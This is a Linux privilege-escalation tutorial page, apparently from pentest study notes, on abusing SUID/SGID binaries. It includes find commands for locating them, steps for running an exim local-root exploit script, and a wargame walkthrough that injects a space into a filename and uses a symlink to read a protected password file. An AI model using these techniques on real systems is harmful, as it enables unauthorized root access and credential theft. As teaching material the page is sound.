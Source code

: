 # SUID / SGID abuse

#### SUID files get executed with the privileges of the file owner.

#### SGID files get executed with the privileges of the file group.

If the file is owned by root, it gets executed with root privileges, and we may be able to use it to escalate privileges.

## <mark style="color:red;">Finding SUID / SGID Files</mark>

We can use the following find command to locate files with the SUID or SGID bits set:

#### `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`

or

`find / -perm -2000 -o -perm -4000`

## <mark style="color:red;">Shell Escape Sequences</mark>

Just as we were able to use shell escape sequences with programs running via sudo, we can do the same with SUID / SGID files. A list of programs with their shell escape sequences can be found here: [https://gtfobins.github.io/](https://gtfobins.github.io) Refer to the previous section on shell escape sequences for how to use them.

### <mark style="color:orange;">A Quick Word on LD\_PRELOAD & LD\_LIBRARY\_PATH</mark>

why we can’t just use the same LD\_PRELOAD and LD\_LIBRARY\_PATH environment variable tricks we used with sudo privilege escalation?

#### <mark style="color:green;">By default, this is disabled in Linux, due to the obvious security risk it presents!</mark>

Both these environment variables get ignored when SUID files are executed

Certain programs install SUID files to aid their operation. Just as services which run as root can have vulnerabilities we can exploit for a root shell, so too can these SUID files. Exploits can be found using Searchsploit, Google, and GitHub, in the same way we find exploits for Kernels and Services.

for example we found an SUID file for exim service:

#### `-rwsr-xr-x 1 root root 963691 May 13 2017 /usr/sbin/exim-4.84-3`

Exim is a popular mail transfer agent that is somewhat notorious for having many security vulnerabilities.

The version of exim is rather obvious from the filename, however we can confirm it:

#### `$ /usr/sbin/exim-4.84-3 --version`

Using searchsploit on our local machine, we find a local privilege escalation for this exact version:

![](../../../.gitbook/assets/suid1.png)

Copy the exploit script across to the target machine. You may need to remove ^M characters from the script:

{% hint style="info" %}
DON NOT COPY PASTE THIS, ENTER ^M WITH THE KEY COMBINATIONS.

Note that to get ^M you have to hold Ctrl and then press V and M in succession.
{% endhint %}

`sed -e "s/^M//" 39535.sh > privesc.sh`

Make sure the script is executable:

`chmod +x privesc.sh`

Execute the script to gain a root shell:

`./privesc.sh`

## <mark style="color:red;">Abusing cat to read files with SUID executables</mark>

we have a suid program that prints out a given file contents named printfile we have a password file that cant be read by this program which contains root password .it seems the program printfile outputs the text from a file; just like cat. Therefore, we can assume that it’s using cat somewhere in the code.

![](<../../../.gitbook/assets/1 (14).png>)

make a temp directory, and a new text file that we can use for testing the program with ltrace.

#### `mkdir /tmp/jhalon && touch /tmp/jhalon/test.txt` `cd /tmp/jhalon` `ltrace ~/printfile test.txt` \`\` `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600` `access("test.txt", 4) = 0` `snprintf("/bin/cat test.txt", 511, "/bin/cat %s", "test.txt") = 17` `system("/bin/cat test.txt"` `--- SIGCHLD (Child exited) ---` `<... system resumed> ) = 0` `+++ exited (status 0) +++`

From the output, we can see that there is a small security hole in the way this program functions. If you look closely, you can see that the function access() and /bin/cat are being called on the input file. What access() does is check permissions based on the process’ real user ID rather than the effective user ID

And if we look back into the previous ls -la output, we can see that printfile is owned by leviathan3. So access() will call the process with leviathan3’s privileges

Looking into the code we also see that /bin/cat is being called on the file to output the contents. While access() uses the full path’s filename, /bin/cat uses just the first part of the filename. (This is due to how the “ “ are set up in the program) What we can do here is try to add a space to a filename, and if we are correct, /bin/cat will read the file as 2 separate files.

#### `touch pass\ file.txt` `ltrace ~/printfile "pass file.txt"` `` `__libc_start_main(0x804852d, 2, 0xffffd744, 0x8048600` `access("pass file.txt", 4) = 0` `snprintf("/bin/cat pass file.txt", 511, "/bin/cat %s", "pass file.txt") = 22` `system("/bin/cat pass file.txt"/bin/cat: pass: No such file or directory` `/bin/cat: file.txt: No such file or directory` `` `--- SIGCHLD (Child exited) ---` `<... system resumed> ) = 256` `+++ exited (status 0) +++`

As you can see, /bin/cat calls “pass file.txt” as two separate files, “pass” and “file.txt”. We can actually exploit this! Let’s go ahead and create a symbolic link for the “pass” part in “pass file.txt”, and link it to /etc/leviathan\_pass/leviathan3.

#### `ln -s /etc/leviathan_pass/leviathan3 /tmp/jhalon/pass` `` `leviathan2@melinda:/tmp/jhalon$ ls -la` `` `total 7864` `drwxrwxr-x 2 leviathan2 leviathan2 4096 Sep 10 04:55 .` `drwxrwx-wt 1 root root 8036352 Sep 10 04:55 ..` `lrwxrwxrwx 1 leviathan2 leviathan2 30 Sep 10 04:55 pass -> /etc/leviathan_pass/leviathan3` `-rw-rw-r-- 1 leviathan2 leviathan2 0 Sep 10 04:54 pass file.txt` \`\` `leviathan2@melinda:/tmp/jhalon$ ~/printfile "pass file.txt"` `Ahdiemoo1j` `/bin/cat: file.txt: No such file or directory`

as you can see we where able to read password file.
